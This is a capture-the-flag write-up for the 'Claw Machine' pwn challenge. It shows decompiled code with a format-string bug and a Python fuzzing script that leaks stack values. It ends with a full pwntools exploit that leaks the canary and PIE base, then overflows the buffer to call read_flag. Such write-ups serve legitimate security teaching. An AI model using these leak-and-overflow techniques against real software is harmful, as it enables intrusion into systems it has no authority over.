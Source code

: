 
# Synopsis

Claw Machine is an Medium difficulty challenge that features bypassing canaries and dealing with PIE to call a function that reads the flag (ret2win).

# Enumeration

First of all, we start with a `checksec`:  

```console
pwndbg> checksec
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	
Full RELRO   Canary found      NX enabled   PIE enabled          No RPATH   RW-RUNPATH   90 Symbols	  No
```

### Protections 🛡️

As we can see:

| Protection | Enabled  | Usage   |
| :---:      | :---:    | :---:   |
| **Canary** | ✅      | Prevents **Buffer Overflows**  |
| **NX**     | ✅      | Disables **code execution** on stack |
| **PIE**    | ✅       | Randomizes the **base address** of the binary |
| **RelRO**  | **Full** | Makes some binary sections **read-only** |

Running `file`, we also notice the the binary is `64-bit` and `dynamically linked`.

```console
➜  claw_machine: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0dcdc3f9bead6c2a31478a42c3a9e13e478a230f, not stripped
```

The interface of the program looks like this:

```console
➜  ./claw_machine
▛▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▜
▌▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▐
▌▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▐
█            |             █
█            |             █
█            |             █
█         /▔▔ ▔▔\          █
█        |       |         █
█         \     /          █
█                          █
█                          █
█        __________        █
█        |flag.txt|        █
████████████████████████████

Press '1' to move left, '2' to move right, '9' to grab the prize!

>>
```
After attempting to grab the prize no matter how much you move you will break the box and be offered to rate the game:

```console
▛▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▀▜
▌▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▓▒▐
▌▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▐
█            |             █
█            |             █
█            |             █
█            |             █
█            |             █
█            |             █
█         /▔▔ ▔▔\          █
█        |       |         █
█         \     /          █
█        |flag.txt|        █
████████████████████████████

[-] You broke the box and couldn't get the prize!

Would you like to rate our game? (y/n)

>> y

Enter your name: TESTNAME

Thank you for giving feedback TESTNAME

Leave your feedback here: FEEDTEST

Thank you for playing!
```
Upon agreeing to rate the game you can insert your name and your feedback.

### Disassembly ⛏️

Taking a look at the psuedocode generated by ida for the function that handles feedback (fb) we can first identify a string format vuln, perhaps allowing us to leak PIE or Canaries?

```C
unsigned __int64 fb()
{
  __int16 buf; // [rsp+Dh] [rbp-73h] BYREF
  char v2; // [rsp+Fh] [rbp-71h]
  char format[8]; // [rsp+10h] [rbp-70h] BYREF
  __int64 v4; // [rsp+18h] [rbp-68h]
  char v5; // [rsp+20h] [rbp-60h]
  __int64 v6[9]; // [rsp+30h] [rbp-50h] BYREF
  unsigned __int64 v7; // [rsp+78h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  buf = 0;
  v2 = 0;
  *(_QWORD *)format = 0LL;
  v4 = 0LL;
  v5 = 0;
  memset(v6, 0, 64);
  printf("Would you like to rate our game? (y/n)\n\n>> ");
  read(0, &buf, 2uLL);
  if ( (_BYTE)buf == 121 || (_BYTE)buf == 89 )
  {
    printf("\nEnter your name: ");
    read(0, format, 0x10uLL);
    printf("\nThank you for giving feedback ");
    printf(format);
    printf("\nLeave your feedback here: ");
    read(0, v6, 0x5EuLL);
  }
  puts("\nThank you for playing!\n");
  return __readfsqword(0x28u) ^ v7;
}
```
Lets attempt to overflow the buffer:

```console
Enter your name: no

Thank you for giving feedback no

Leave your feedback here: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Thank you for playing!

*** stack smashing detected ***: <unknown> terminated
zsh: IOT instruction (core dumped)  ./claw_machine
```
Shit. Canaries :)

Also did some testing and found out that you have 72 bytes before hitting the canary :)

### Debugging 

Ok, time to go hunt for some canaries,
In linux canaries end in 00. This makes them pretty easy to spot. to figure out which values correspond to a canary i used a quick python script:
```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./claw_machine', checksec=False)

# Let's fuzz x values
for i in range(300):
    try:
        if True:
            # Create process (level used to reduce noise)
            p = process(level='error')
            p.recvuntil(b">> ")
            p.sendline(b'9')
            p.recvuntil(b">> ")
            p.sendline(b'y')
            p.recvuntil(b': ')
            p.sendline('%{}$p'.format(i).encode())
            p.recvline()
            result = p.recvline().decode()
            if result:
                print(str(i) + ': ' + str(result[result.index("k",20)+1:]).strip()) #i know this is made badly... Leave me alone.
    except EOFError:
        pass
#  Canaries will look like this:
#  0x5020c933db88ab00
#  0x459415b8e048d00
#  makes em really easy to see
```
after running this script a couple times i managed to not only find that a canary sits on the 21st value on the stack (%21$p) but also that we have the address of Main+53 at the 23rd value on the stack (%23$p)
the address of main+53 is on the stack because its the return value :)

With this address we can now bypass PIE.

Since we know that the return value sits 2 spots after the canary on the stack we know that our payload should look something like this:

(72 bytes) + (canary) + (8 bytes) + (read_flag)

# Solution

```python
from pwn import *
elf = context.binary = ELF('./claw_machine', checksec=False)
#context.terminal = ["alacritty",'-e','zsh','-c']
#p = gdb.debug("./claw_machine",gdbscript='''
    #break fb
    #continue
    #''')
#p = process(level='error')
#p = remote("IP", "PORT")
p.recvuntil(b">> ")
p.sendline(b'9')
p.recvuntil(b">> ")
p.sendline(b'y')
p.recvuntil(b': ')
p.sendline('%21$p %23$p'.encode())
p.recvline()
x = p.recvline().decode()
canary = x[x.index("k",20)+2:]
elf.address = eval(canary.split(" ")[1].strip())-0x1552
p.recvline()
payload = flat(
    b'A'*72,
    eval(canary.split(" ")[0]),
    b"A"*8,
    elf.symbols.read_flag
)
p.send(payload)
p.recvline()
p.recvline()
p.recvline()
p.interactive()

```
